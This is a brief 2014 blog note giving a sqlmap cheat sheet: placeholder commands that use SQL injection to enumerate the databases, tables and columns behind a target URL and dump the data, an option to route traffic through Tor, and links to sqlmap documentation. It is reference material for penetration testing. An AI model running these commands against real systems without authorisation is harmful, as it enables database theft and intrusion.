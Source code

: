 Title: sqlmap Cheat Sheet  
Date: 2014-12-01 05:04  
Author: fkz  
Category: Note  
Tags: SQL Injection, sqlmap, Security  
Slug: sqlmap-cheat-sheet  
  
  
# Usage  
  
+ `$ sqlmap -u ${url}`  
+ `$ sqlmap -u ${url} --dbs`  
+ `$ sqlmap -u ${url} -D ${database} --tables`  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} --columns`  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} -C ${col1},${col2} --dump`  
  
  
# Options  
  
+ `--tor --tor-type=SOCKS5`  
  
  
# References  
  
+ [sqlmap注入常见用法一条龙](http://www.nigesb.com/sqlmap-common-usage-and-examples.html)  
+ [sqlmap - Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  
+ [An Old man lab0ratory: Sqlmap tutorial - you are just unavoidable](http://oldmanlab.blogspot.tw/2012/03/sqlmap-tutorial-you-are-just.html)  
+ [Usage · sqlmapproject/sqlmap Wiki · GitHub](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  
